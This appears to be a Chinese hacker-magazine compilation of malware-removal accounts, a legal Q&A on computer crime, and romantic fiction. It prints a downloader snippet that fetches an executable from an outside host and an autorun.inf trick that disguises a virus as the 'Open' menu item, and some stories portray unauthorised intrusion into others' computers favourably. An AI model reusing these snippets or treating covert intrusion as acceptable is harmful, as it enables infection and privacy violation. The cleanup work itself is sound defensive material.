打开 Regmon 进行注册表监视，然后再手动运行病毒 smss.exe，对监视结果进行分析（图8），让我大吃一惊。inexplore.pif 和 smss.exe 对注册表的修改多达一百多项，木马作者可真够勤快的啊，我可没那么勤快一个个地去手动修改，还是使用工具吧。通过对上图中请求值为“SetValue”的注册表项分析得知，修改的值中主要涉及到图7中的 inexplore.pif、IEXPLORER.com、smss.exe 和 inexplore.com 这几个文件，那我们就将它们在注册表中的有关项删除或修改回来不就行了。

打开 Registry Crawler（要确保 smss.exe 没有启动，它会保护这些键值），搜索关键词“inexplore.com”，然后执行，结果找到四个值（图9）。从数据中的路径就能看出这里原本是 IE 的路径，那就用 Registry Crawler 的替换功能直接替换成“IEXPLORE.EXE”吧。注意，在清理注册表的整个过程中，不要启动其它任何程序，以防 smss.exe 再次运行。接着搜索“windows\\smss.exe”，除找到几个启动项的值外，还有一处值：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Shared Tools\MSConfig\startupreg\...\Program
"key"="SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
"item"="smss"
"hkey"="HKLM"
"command"="C:\\WINDOWS\\smss.exe"
"inimapping"=10
```

不管它，将它们全部删除。再搜索“IEXPLORER.com”，找到一个值：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\Drive\shell\find\command]
@="%SystemRoot%\\IEXPLORER.com"
```

一看就知道这里原来正确的应该是“%SystemRoot%\\Explorer.exe”，不管了，改过来（我先前已经备份注册表了）。最后再搜索“inexplore.pif”，结果出来一大堆值，一个字“删”。注册表就清理完了，再按前面的方法将所有病毒文件找出来删除掉，最后将 QQ 与瑞星重新安装一次，完了重启电脑，再也没有出现那些症状。


至此，我手动杀毒第一次大功告成，本以为很快就能搞定，没想到竟然花了将近两天时间才清除。后来上网一查才知道这是一种游戏盗号木马，中这种病毒的人好多，而且有很多变种、很多不同的症状。有两个原因，一是我轻“敌”了，二是水平还不够，看来学黑的路还长着呢！革命尚未成功，同志仍须努力啊。

## 围战VBS网马

最近我 QQ 上的 hacker 群里老是不时地跳出“新年开张大吉，XX 网站做色情网提供 7 天免费下载”之类的消息。好在我这人几乎算是比较老实，没上这个当。可最后，还是被一兄弟不小心给“害”了。


我立马在 QQ 上将那兄弟臭骂了一顿，那兄弟委屈地解释说不是他故意发的。算了算了，谁叫他也是个菜鸟呢，看样子也不是故意的。我决定将这个病毒揪出来。

抄起 FlashGet，点击工具栏中的新建按钮，再将刚才的网址复制到“添加新的下载任务”的“网址”栏中（图1）。下载好网页文件后记住可千万别直接用浏览器打开。

我们使用记事本打开 3333.htm，这时杀毒软件可能会提示有病毒。这个不要怕，因为我们在研究病毒源代码，可以先关掉杀软。记事本里是一片乱码，不过在乱码中提示的 VBScript、JavaScript 清晰可见（图2）。

```html
content="text/html;charset=gb2312"
<title>西安军团</title>
<script LANGUAGE="Javascript"> ... </script>
```

> **小说明：** 平时我们是用不到 URL 解码的，因为 IE 会自动将输入到地址栏的非数字字符转换为 URL 编码。文中举例解释了 `%` 加十六进制编码的含义以及汉字 URL 编码方式。

我们平时在没有 URL 解码工具的时候可以直接借用百度搜索引擎来进行小部分（单词级）URL 编码解码操作，不过面对这种整文件解码的，还是找专门的工具吧。

已经看到 3333.htm 文件的 Title 中有“西安军团”的字样，我到网上找了找，竟然还真找到了他们的 URL 解码工具（图3）。在“输入路径”和“输出路径”中分别选择好要解密的文件和解密后保存的路径，点击下方的“解密”就可以了（图4）。


```vbscript
Fchenzi="..."
Kchenzi="..."
Jchenzi="..."
set zhonghua = document.createElement(Fchenzi)
zhonghua = "http://www.smxlykj.cn/mh/MHGame.exe"
zhonghua.setAttribute Kchenzi, Jchenzi
```

源代码采用了把敏感字分开写的策略来逃避杀软查杀，不过源码中的“Microsoft.XMLHTTP”和“http://www.smxlykj.cn/mh/MHGame.exe”已经暴露出了 Downloader.VBS 的本性。

我再把该 EXE 同样使用 FlashGet 下载下来，看看这到底是什么东西。使用卡巴没有查出什么，可能是做过了免杀处理。为了彻底弄明白这个程序，我决定在我的爱机上亲自测试。

在入“地狱”前，为了以防万一，我还是使用 Ghost 为系统做了一个备份。然后祭出今天真正的主角——著名注册表文件监视利器 RegSnap。


先做快照，还是做个完整快照。因为除了要监视注册表外还要监视系统文件，所以我们点击“制作完整快照”（图5）。等到 RegSnap 将所有项目都扫描做好记录后，我们将其保存在硬盘上。这样就把运行前的记录做好了。

接下来就是病毒发作的时刻了，双击运行 MHGame.exe，果不其然，它立马被截获，提示“风险软件 Invader，运行进程：C:\WINDOWS\iexplore.exe”以及“Trojan.generic，运行进程：C:\Documents and Settings\刺猬\桌面\MHGame.exe”，MHGame.exe 随后也自动被删除了，典型的见不得人（病毒文件被运行后，为了不被查到，通常都会删除自己）。我们重新再做一次快照，做法与第一次完全相同。保存后，点击工具栏上的天平图标——比较快照（图6），选择我们要比较的两次快照，一般默认即可。现在来看看比较结果，怎么样，病毒的伎俩一览无遗吧？

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunItem\...\ls4
键值: 字符串: "C:\WINDOWS\iexplore.exe"
...
HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam\MUICache\@sendmail.dll,-21
键值: 字符串: "邮件接收器"
...
HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam\MUICache\@zipfldr.dll,-10148
键值: 字符串: "压缩(ziped)文件夹"
...
HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam\MUICache\C:\Documents and Settings\刺猬\桌面\MHGame.exe
键值: 字符串: "MHGame"
```

> （本文所涉及到的 URL 编码转换工具和 RegSnap 已收录到光盘中）


## 揪出伪装到极限的U盘病毒

2NaNa

听说英语六级考试又改进了，老师把英语听力练了一遍又一遍。无奈地听着电脑里的那两个男女说来说去，可就是不太明白，不多时我就梦寻周公了。等我醒来时老师已经把听力都练完了，我可是个爱学习的好孩子（小菜怒：好孩子上课还睡觉！），于是决定把听力的 mp3 文件拷回去自己学习。老师看我是个好学的孩子，就答应把听力的全部资料给我复制回去。

我恰好带了 mp3，当我把 mp3 接到电脑的 USB 接口上时，等着拷贝的那一刻，感觉似乎有点不对，速度有些慢！不过这并没有引起我太多警惕，回到寝室后准备把资料拷到我的电脑里。对于 U 盘病毒我还是了解一些的，凡是中了 autorun.inf 方式的 U 盘病毒，鼠标在 U 盘上单击右键，一般第一个菜单是 Auto 的就肯定是中病毒了。因此，当我看到第一个菜单是“打开”，我就放心了，看来老师的电脑上并没有病毒。点击打开，奇怪的是鼠标有点呈现出沙漏的形状，这是在运行某个程序呀。我马上按下 Ctrl+Alt+Del 打开任务管理器，果然发现了一个进程在作怪：wuauserv.exe（图1）。


在系统盘的 system32 目录下找到了这个文件，先在任务管理器中结束掉 wuauserv.exe 的进程，再删除掉该程序。似乎是搞定了，我重新回到任务管理器，居然发现那个程序又出现了，看来肯定是有什么程序在保护着它。我又运行杀毒助手查看各个进程的路径，回头才收拾了它：c:\windows\system32\scvhost\ 目录下的 svchost.exe 就是它的帮凶了（图2）。


我马上到 scvhost 这个目录下准备将病毒文件删除，没想到却根本看不到这个病毒文件，肯定是隐藏了。打开“我的电脑”，在“工具”→“文件夹选项”→“查看”里，把“隐藏受保护的系统文件”的前勾去掉，再把“显示所有文件和文件夹”勾选上。没想到这个该死的病毒文件仍然没有显示出来，肯定是注册表被修改了。在“开始”→“运行”栏中输入 regedit 启动注册表，找到如下键值：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL]
"CheckedValue"=dword:00000000
```

把 CheckedValue 后边的“0”改成“1”就可以了。在修改之前记得要把那个假的 svchost 进程结束掉，要不然表的键值又会被修改回去，因为那个 svchost 进程隔几秒就会扫描一下注册表，发现键值被修改的话就会重新把病毒写进注册表。接下来就是找出病毒文件启动的注册表键值了，可以使用 Autoruns 这个小工具，它可以查出几乎所有自启动的地方。轻而易举就看到了这两个家伙的藏身之处（图3）。


它们在注册表中的存储方式是这样的。


如果在 Autoruns 中直接删除，就会把系统重要的 userinit 文件自启动键值也给删除……在注册表中将后边多余的键值删除后，重启电脑再删除掉病毒文件就 OK 了。

这个病毒的整个清除过程就是这样的，但令我百思不得其解的是它怎么被我运行的……


U 盘也都中病毒了（也都是使用右键打开的）……原来这是伪装的最高潮所在，如图4。

居然有两个“打开”的选项……第一个“打开”就是“Auto”，实际上是我们自己运行了病毒。autorun.inf 文件的代码如下：

```ini
[AutoRun]
shell=verb1
shell\verb1\command=desktop.exe
shell\verb1=打开(&O)
shell=Auto
```

上边这段代码小菜以后可能会用到喔 ^^！最后让我们来看病毒的全貌……（本文所涉及到的杀毒助手、Autoruns 已收录到光盘中）

## 用思维来灭病毒

这天正玩着游戏，QQ 上一好友发来消息要我帮她打印一份文件……却突然发现打印机消失了（图1）。


真是奇怪了，我冷静了一下，开始还原地查找起事故的原因……发现了一个名为“winMgCt.exe”的奇怪进程（图2）。

这个进程以前可从来没有见过，于是我便下载安装了 360 安全卫士……在运行栏输入 regedit，进入注册表查找该进程键值并清理。


现在，心里总算踏实了，我打开了瑞星 2007，准备进行全盘杀毒……突然灵光一现——对呀，瑞星的工具列表中有个功能，叫做“瑞星安装包制作程序”（图3）……原来的打印机图标终于重新出现了（图4）……总结整个病毒查杀的过程，主要是给菜鸟们一些思路：手动杀毒时不要一味地遵从传统方法，不能把第三方软件当成唯一救命稻草。

## 菜鸟查杀265dm病毒

西门吹泡

上个月我的电脑感染了病毒，最近才查杀掉。感染病毒的具体症状就是一打开 IE 浏览器就自动连接 `http://www.265dm.cn/adjs.js`（图1）……后来才知道是在 `windows\system32\com` 目录下的 `lsass.exe` 和 `smss.exe`……另外在每个驱动器下都有隐藏的 `autorun.inf` 和 `pagefile` 文件（如图3）。我把“工具→文件夹选项”里的“隐藏受保护的系统文件”去掉后，病毒会自动修改回来……

文章说暂时还没有杀毒软件可以查杀（至少我使用的瑞星没有反应）……据作者说把 Java 虚拟机除掉后病毒就不会发作了，然后再结束进程、删除病毒文件……但是在给同学电脑查杀时，这个办法并不灵了，因为结束掉进程后它又会重新运行（`lsass.exe` 和 `smss.exe` 相互为守护进程）。后来我在安全模式下结束进程并删除文件，再清理各驱动器中的 `autorun.inf` 与 `pagefile`，问题才得到控制。


上网搜索了很多求助帖，但都没有给出详细解决办法，最后我只好重装系统。可系统装好后一打开 IE 还是连接 265dm.cn……后来看到关于“清除 ghj98 和 265dm 网页自动跳转病毒”的文章，才知道这个病毒传播性很强。

现在我的电脑 C 盘是 NTFS 格式，并设置了 `windows\system32\com` 目录为不可写，关闭了自动运行功能（组策略中关闭 `autorun.inf`），把用户权限改为来宾权限，以减少系统被利用风险。这样的设置可抵挡大部分病毒。如果有更好的查杀方法，欢迎分享。

## 我的电脑你别乱动！

选戈

最近忙于考试，免不了在网上查找资料，转了好久才找到了一些，正准备下载回来，但是在右键选择下载的时候，却发现有好多选项，其中光 QQ 的就有好几个，如图1。这些都是什么时候加进来的呢？这让小菜我都纳闷，我最不喜欢又多又没用的东西了。

记得 QQ 的这些东西我曾经使用 360 安全卫士删除过，我重新打开了 360，还真吓了我一跳，怎么昨天清理的，它今天又回来了，如图2。

```text
新增主键
HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\上传到QQ网络硬盘
HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\添加到QQ书签
HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\添加到QQ自定义面板
HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\用QQ彩信发送该图片
HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam\MUICache\F:\Tencent\qq\QQ.exe
键值：字符串：“QQ”
```

虽然是 QQ 的东西，不过没人对它有好感，恶评率高达 80%，看来 Tencent 现在的东西越来越让人烦了。我赶紧使用 360 把它清除了，完毕后又使用 360 彻底检查了一遍，确定没有后，又开始安心上网了。可惜好景不长，第二天准备上网的时候，发现它又阴魂不散地出来了，和图1一模一样。我赶紧使用 360 又查了一遍，果然又在，把它再次清除并按照 360 的提示到注册表相应位置看了看，确定没有 QQ 的这些烦人东西之后才放心。可谁知晚上的时候这冗长的右键菜单再一次浮现了，似乎在向我嘲笑道：“小样，服了吧！”

为什么 360 每次都能很好地清除它，但是过后又出现呢？我猜想应该是每次登录 QQ 的时候，程序都会自动创建注册表键值。为了证实这个想法我做了个试验：退出 QQ，使用 RegSnap.exe 做了一次快照，然后登录 QQ 又做了一次快照。对比快照发现果然如此，QQ 更改和创建了不少注册表键值。一个一个仔细分析，最终确定 QQ 右键菜单对应注册表位置和 360 的判断一样（图3）。不过 360 只是治标不治本，只能清除，却不能防止这些键值的创建。


- 1. 修改 QQ 程序，不让它随便修改和新建注册表键值；
- 2. 从系统本身入手，防止 QQ 写注册表键值。


第一种方法由于我太菜，研究了半天也没有什么结果，于是只好从第二个方法上来寻求突破。这里我们得明白，以当前用户（一般都是管理员）运行一个程序，也就相当于允许它任意对电脑进行修改，所以我们需要做一些设置以限制自己的权限，当然也就阻止了程序对系统的修改。

找到 QQ 修改注册表的相应位置：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`，右键选择“权限”，在弹出的对话框中选择你当前登录的用户名（一般默认是第一项），点击下面的“高级”，在弹出的对话框中选中我们刚才选中的用户，点击下面的“编辑”。在弹出的对话框中将“拒绝”一列的“设置数值”“创建子项”打上勾，确认修改（图4）。再次登录 QQ，上网后没有发现 QQ 的那些右键选项，使用 360 扫描了一下也没有发现（图5）。哈哈，终于解决了。

其实修改注册表关键位置的权限，不仅能阻挡 QQ 烦人的右键菜单，也是防范木马的一个好方法。把木马常见的写入注册表的位置权限设置好，我们不就又多了一道安全屏障吗？但要注意一些正常程序也会修改注册表，所以设置权限一定要谨慎。

## 毒笈


## 菜鸟玩转反病毒——

[G_AVR]Greysign

现在的病毒数量是越来越多，技术也是越来越先进，杀毒软件也只好天天升级，疲于应付。而绝大部分的电脑用户都只是一些电脑水平不高的个人用户，碰到病毒就束手无策了。今天，我就带大家一起从菜鸟快速升级到对抗病毒的老鸟。我们需要进行以下的准备活动：首先在系统中安装一个VMWARE，然后在这个VMWARE中再安装一个XP系统以供测试使用……另外我们要用到的工具还有REGSNAP（系统快照工具）、ICESWORD（冰刃，查杀病毒木马常用的辅助工具）。

启动我们的虚拟机，把REGSNAP安装好，再给刚安装完成的XP系统做一个快照，这样做的目的是即使在虚拟系统里运行了病毒，以后只要恢复快照就可以回到没中病毒前的状况。我们查杀病毒的思路是这样的：病毒可以理解为一个恶意程序……并想方设法地隐藏自己。我们要做的，可以理解为对程序安装过程和系统所做修改进行“倒行逆施”。


做好虚拟机系统的快照后，进入虚拟系统，打开REGSNAP，新建一个快照，然后选择制作完整快照，点击确定后它就自动开始对文件和注册表制作快照了（图1）。好了，我们可以开始运行病毒了。运行之后我们再做一个快照，然后再跟之前的快照进行对比，就可以知道病毒对你的系统做了什么修改。


我们以Trojan-Downloader.Win32.Agent.bmo病毒为例……运行后会开始下载木马并自动运行，如果你在虚拟系统里安装了HIPS软件，就会知道它下载运行了没。我们再来打开REGSNAP，选择“文件”→“比较”，然后选择好之前做好的快照和运行以后的快照，点击确定（图2）。

```text
"HKEY_CLASSES_ROOT\CLSID\{06E6B6B6-BE3C-6E23-6C8E-B833E2CE63B8}"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\ShellExecuteHooks\{...}"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\fysa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\jtsa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\whsa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\qjsa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\qtsa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\wgsa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\wlsa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\wmsa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\wosa"
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\xtsa"
...
```

对比完了后就可以得到一份快照报告，包括注册表新增、删除、修改的项目和键值记录，文件新增、修改、删除的记录。我们需要从中剔除一些多余的信息，把病毒修改的重点项目列出来（图3是我复制出来的注册表启动项列表）。现在我们进入安全模式，然后打开注册表删除刚才看到的启动项目，恢复病毒修改的注册表，使对应可删除病毒的文件就可以了……至此就杀毒完毕。你也可以把病毒行为记录分析发布到网上，供别人手工杀毒时参考。

## 网警 VS 黑客——网络世界里黑与白的较量


提到网警，小编欠钱就会想起了半年前的一幕。那是欠钱刚到北京参加工作的第12天，收到了一封论坛短信和一封Email。短信内容如下：

> “赵先生：  
> 我是XX市公安局网监分局民警。我们接到一条线索，现有关于您在网上发布某网页木马的信息，请您看到后尽快与我们联系……”

虽说不做亏心事，不怕鬼敲门。可走入黑客这几年，入侵、放马、抓鸡这些事儿欠钱也没少干。紧张之余，欠钱把这个短信告诉了编辑部的其他同事，众人纷纷出招支招。

欠钱心情复杂地听完大家的“好心劝解”，把目光投向了正在写稿的sagi。结果sagi一脸严肃地过来：“到了公安局，好好交代，工作上的事情，我会找人替你先顶着。若在里面缺点什么就往编辑部来电话，大家都把你当成自家人一样，别见外……”

面对这一番损友，欠钱还是绝望了。坐在办公桌前思考：我以前真没搞过破坏啊！以前刷过Q币、聊过马、年少轻狂时玩过远控和后门，不至于也会被列进黑名单吧？

电话接通后，对方确认身份并说明来意：他们接到线索，日志中出现了可疑记录，需要核实。欠钱一边回答，一边回想自己曾测试过的网页木马与相关页面。

“事件ID（1900）是什么意思？日志里的URL为什么会指向某个页面？”面对民警提问，欠钱开始解释：该页面并非IE首页，而是一个测试下载执行程序的木马页，曾用于测试稳定性。

对方继续追问页面用途及传播影响。欠钱说明：自己发现问题后已删除相关文件，不再使用该工具，也没有继续传播。沟通中，他逐渐从紧张转为配合。

文章后半部分继续围绕“网警核查—技术解释—责任边界”展开：网页木马、日志线索、QQ沟通记录与误报可能性交织在一起，呈现出网络世界里黑与白之间复杂而微妙的较量。

## 黑客人物面对面

（访谈正文，左右分栏）内容为记者与“网警”关于网络攻击、黑客行为、法律责任与取证处理方式的问答对话。

> （框内引文）涉及网络安全保护工作、危害信息网络安全行为的处罚依据及相关法律条款摘要。  
> **公共信息网络安全监察分局职责**：研究、分析公共信息安全对策和技术防范措施，指导并组织实施全市公共信息网络安全管理等。

### 参考答案A：答案提供者 某警察学校专业老师

- 1. 有人入侵网吧并破解管理系统，免费上网的定性与处理。  
- 2. 有人入侵网吧主机，给自己加钱的法律后果。  
- 3. 有人入侵网吧公共机器，盗取他人QQ号或网络游戏号。  
- 4. 盗号后倒卖赃物获利（金额可能较大）的处理。  
- 5. 入侵普通网站（个人站），盗取会员数据的处理区分。  
- 6. 入侵非政府但访问量较大的网站并上传木马/传播病毒的处理。  

### 参考答案B：答案提供者 武汉理工大学法学院11·3张某

- 1. 该案情形中大致分为三类，但部分界限模糊，处理需结合主客观要件统一判断（1—6问题同理）。  
- 2. 重点考察行为人的主观故意、社会危害性及相关刑法与治安管理处罚法适用。  

## 黑客人物面对面

### 法律依据

对于是否犯罪，有一个比较感性的判断标准，就是**对社会危害性是不是很大**，也就是对社会造成的损失金额大不大、给他人造成的损失大不大，以及是否引发大恐慌等。案情情况都可以据此判断是否犯罪。

3、4是关于网络虚拟财产的问题，以前这个问题是比较模糊的；法院有些甚至会判“很多时候出来一句‘违法可依’就算了”。不过，现在司法已经有实践了，在上海一个人偷他人游戏装备，最终是按盗窃罪判的，而非旧时司法里简单归入“QQ骗案”。所以，3、4其实要看他涉及（其实还是现实金钱）的量，是否有太大争议。

### 问题7-9

1. 这个人入侵的是一个商业网站（比如淘宝），非法获取了非常多的财产，甚至侵犯到非常多人的财产；  
2. 这个人入侵了非常多的普通网站（非政府），然后通过网页木马的方式非法传播木马，控制了成千上万的杀毒用户；  
3. 黑客爱好者里有一些人很喜欢软件破解，如果他们把一些商业软件、带版权的软件破解后进行公布，影响到了正版软件的销售，这样算犯法吗？  

5、6、7、8是攻击网站行为，可以参考《计算机犯罪案例》之类的法规。同时牵涉到现实利益的，就要和刑事中的侵占财产类犯罪作一些比照。9的行为涉及不正当竞争（如果黑客就是竞争者），就按正常经济秩序，以及反不正当竞争法等有关公平市场秩序方面的法规。说白了就是看其所参与行为对应的罪名判定。

如果涉及隐私泄漏，可能触犯民法、知识产权法、商业秘密法、反不正当竞争法等；后果不重的可按治安办法进行处罚，有时法院会把这类“危害社会”等后果考虑进去。再严重的，就可能触犯刑法。可观察实体法院如何判。

此外，现行的很多法规本身是以行为结果来判定是否适用刑法、民法的实施约束的，所以，如果案例中还有说明导致的后果，可看到它的源头法（这就是立法精神的具体法律形式）。

法律和犯罪本身就是两个概念，简单说，犯罪是否成立要看严重的违法性和是否导致后果才可判罚，可以从法律依据和案例法的角度继续把具体形式补全。也有些人觉得抓不到怎么办，实际上受害人报案难，但判决是可能发生的。

有了这两个参考答案，结合附录中给出的详细规定，我想小菜朋友们对计算机犯罪的相关规定应该已经有了一个清晰的了解。记得前一段时间还有人跟我打听sophia的联系方式，说希望跟sophia一样用黑客技术去“赚”点钱。我希望大家不要有和他一样的念头，这是很危险的，跟sophia一样的“职业黑客”们有不少已经被抓了，目前正在拘留所等候判刑或者起诉。具体判多久还不知道，这跟他们盗窃的财产数额有关。

做出这个专题的主要目的就是想帮那些心态还没有摆正的小黑们，学习网络安全技术并没有错，但是一定要把握好一个度。通过本文的参考答案，或许大家也能做到平时“练习”技术时应该到什么样的程度就适可而止。

有一个信息安全专业的作者告诉我，政府现在急需黑客方面的人才，月薪甚至有5万之多。这个消息的前提我不确定，但是可以确定的一点是，假如你在达到政府“招安”的技术之前就已经因“盗窃”等罪名积累了犯罪前科的话，这样的机会一定不会再给你的。为了我们共同的信仰：自由、平等、隐秘、突破，请每一位读者都驾驭好手中的这把双刃剑！

| 附录 | 内容 |
|---|---|
|  | **计算机信息网络国际联网安全保护管理办法（1997年12月11日国务院批准，1997年12月30日公安部发布）** 第六条 任何单位和个人不得从事下列危害计算机信息网络安全的活动：1）未经允许，进入计算机信息网络或者使用计算机信息网络资源；2）未经允许，对计算机信息网络功能进行删除、修改或者增加；3）未经允许，对计算机信息网络中存储、处理或者传输的数据和应用程序进行删除、修改或者增加；4）故意制作、传播计算机病毒等破坏性程序；5）其他危害计算机信息网络安全的。罚则：第二十条…… |
|  | **中华人民共和国治安管理处罚法 中华人民共和国主席令第三十八号** 《中华人民共和国治安管理处罚法》已由中华人民共和国第十届全国人民代表大会常务委员会第十七次会议于2005年8月28日通过，现予公布，自2006年3月1日起施行。第二十九条 有下列行为之一的，处五日以下拘留；情节较重的，处五日以上十日以下拘留：1）违反国家规定，侵入计算机信息系统；2）违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰；3）违反国家规定，对计算机信息系统中存储、处理、传输的数据和应用程序进行删除、修改、增加；4）故意制作、传播计算机病毒等破坏性程序，影响计算机信息系统正常运行。 |
|  | **中华人民共和国刑法第三章 危害公共安全罪** 第一百二十四条、第二百八十五条、第二百八十六条等条款：涉及破坏广播电视设施、公用电信设施、侵入国家事务及国防建设等重点领域信息系统、破坏计算机信息系统功能和数据、制作传播计算机病毒等行为的刑事责任。 |

## 天上人间

### 海边一粒沙

一直以来我对于“黑客”这个词都是很反感的，这是因为我的电脑总会莫名其妙地遭到攻击或者受到病毒与木马的侵蚀，电视上和报纸上也都说这些讨厌的病毒和木马全都是黑客研究出来的。那个时候的我甚至认为黑客的出现就是危害网络的，不过印象中“黑客”又是离我那么遥远，以至于我从来没有想过会在某一天与黑客正面接触，会那么清楚地看到网络中传说的孤客。

那天下午，阳光明媚地照着窗前的我，我的手指在键盘上飞快地跳动着，眼看着一篇文章就要完美地展现在我的面前了，可是就在这时电脑却突然没有任何反应了，在一阵哭天喊地、愤怒无比之后我还是无奈地重启了电脑，只好一切重写。

“呵呵，写完文章难道不知道要保存吗？”突然我的眼前出现了一个对话框。我惊慌无比地看着电脑，吓得一句话也说不出来。

停了一会儿，屏幕上又弹出一个对话框：“怎么？觉得有些奇怪吗？看来我要讲一个悠久而又古老的故事了。其实你的QQ号和国内一个黑客网站站长的QQ号特别像，是不是经常会遇到别人的攻击呢？”看到这个，我才恍然大悟为什么自己会那么倒霉，总会有人要对自己有非分之想。

我的愤怒燃烧了整个胸膛，把对那些所谓的黑客所有的愤怒全部都发泄在这个送人虎口的家伙身上。“喂，你们这些人有没有点良心啊？就因为这样一个滑稽的理由，就要去伤害别人吗？太没有道理了。”我发泄着心里所有的不满，而且我很怀疑刚才电脑死机的原因，很可能就和这个家伙有关系。

“你不要生气，是不是认为刚才电脑死机的原因和我有关系啊？其实跟我一点关系都没有，那是因为你的窗口开得太多了，所以才导致电脑死机的。”这个家伙像是能看穿我的心事一样，知道我质疑的是什么！

“我开窗户和电脑有什么关系，我热了，所以我才开窗户的。”我非常疑惑开窗户和电脑有什么关系？

“啊！？……这个……怎么跟你说呢？我是说你打开的网页和聊天对话框太多了。”

“不对，你说的也不是没有道理。所以为了补偿对你的损失，我帮你安装了一个防火墙，还有流氓软件清除工具，还有杀毒软件，优化大师，还有……”

看着他说的那些软件我有点头晕。我一直认为电脑能够正常使用就可以了，却想不到原来电脑里要放这些东西才能算是安全啊。顷刻间一个个软件在我的电脑里驻扎了下来。看着来自一个陌生人娴熟的操作以及对我电脑安全的负责，我突然觉得他应该是一个温柔干净的男子，在这一刻刚才的愤怒已经被他的热心所瓦解了。

不知不觉就和他聊了一个下午，天渐渐黑了。我守在黑夜里对这个陌生人不断地敲着留恋，希望他能够陪我一会儿。我在他的身上找到了那种被宠坏的感觉，虽然我们仅仅只是第一次接触。他说他已经在我的电脑很长时间了，看着我聊天时天真开心和忧伤的文字，一直都在想象着我是怎样的女孩子……最后我还是没有留住他，他说他要接女朋友下班回家了。

我的心像被刀子刺到了一样。可是我没有资格说痛，也在嘲笑自己的天真，仅仅是一次普通的聊天和热心的帮助而已，仅此而已。最后他把我那篇即将完成的文章给了我，他说他早就知道我这样使用电脑的方式会死机，所以事先已经帮我备份了文章，希望以后我能够自己照顾自己。他的话就像是自己要去很远很远的地方一样。

本来我就是一个很忧郁的人，自从认识他之后这种忧伤变得更加浓郁。常常有种想哭的冲动，他在对话框里出现的每一个字对我来说都是一种安慰和诱惑。我尽量不让情感泛滥，不让他知道我对他的感觉，我的脆弱。

是他改变了我对黑客的一些看法，他的原则性很强，绝对不会做愧对良心的事。他只对一些漏洞做深入的研究，绝对不会侵犯谁的网站。他大部分的时间都留在了网络上，只是到傍晚的时候准时地去接他的女朋友，这是雷打不动的。

我也曾试着把他忘记，所以有一段时间我关掉电脑，一个人在空荡荡的房间里走动，也绝对不开电脑去见他。看着电脑里有自己喜欢的人，却努力地克制自己不去管、不去碰触，这是一种怎样的煎熬？我说不清，只是感觉快要崩溃一般！

我只维持了三天，便无法忍受电脑里没有他驻扎的感觉了，就像心被挖空了一般。三天后我打开了电脑，电脑刚刚连上了网就看到他在对话框里出现的急切语言，我的眼泪一下子就流了出来，我是如此地思念他，我好害怕失去他的消息，他的一切的一切。

我把我的烦恼全部都丢给他，那些细微的感受和思念也全部都传输给他。偶尔他的沉默会让我知道他明白我的感觉，只是我们之间有太多的隔碍，是我们无法跨越的，所以我们都心照不宣地用语言来安慰彼此的心。他有他的责任，而我也无法跨越我们之间的界限。

我像着了魔一样去学电脑，去浏览一些黑客网站。虽然我根本看不懂那些让人眩晕的代码和那些专业术语。有一天我看到一个黑客网站上记录着反入侵的经历，突然这个帖子让我有了一种奇怪的想法。那以后我每天都抱着一大堆电脑书籍研究，那些代码、软件在我的眼前发出奇异的光芒。我只想离他近一些，再近一些，就像可以很亲近地站在他的身边听他的呼吸，感受他的心跳一样。

我开始使用扫描软件扫描对方的电脑，我想控制他的电脑。那样的话，即使有一天他从我的视线里消失，我也一样不会失去他的讯息……


## 朦胧仙踪

平日里每天都是在看黑客杂志，然后就是泡在黑客网站的论坛上去提问学习。似乎女孩子在这方面有天赋，或者是因为在黑客论坛上女孩子太物以稀为贵吧，我的每次提问总是有许多详细的答复，甚至有人还会手把手地来教我使用那些黑客工具。半年之后我终于成功地入侵了他的电脑，在那一刻我似乎感觉到我可以永远不失去他了。可是当我看到他的电脑时，我觉得天就像要塌下来一般。一个女孩正整理着D盘里的一些日记，而那些日记记录着我和他聊天的内容。从日记里我知道了那个整日让我魂牵梦萦的人叫林子……

“林子走了，如果他说分手时我不那么激烈地跟他争吵，责备他对我的不负责任，他也不会那么忧伤地离开，更不会在大雨中与那辆汽车相撞了……”“这几个月以来防火墙总是在闪，查看到是她的IP地址，我知道她再也不能忍受‘林子’若即若离这样遥远的想念了……”

是我，还是无法说出事情的真相。因为我看到林子那些日记，就知道他是多么害怕这个女孩子会受到一点伤害。我不再怨恨林子和她了，只是羡慕我为什么不会成为那个女孩。林子的日记里写着对这个女孩子所有的承诺……“林子让我找个机会和那个女孩子做个了断，免得以后知道真相后会伤害到她……”


## 安安

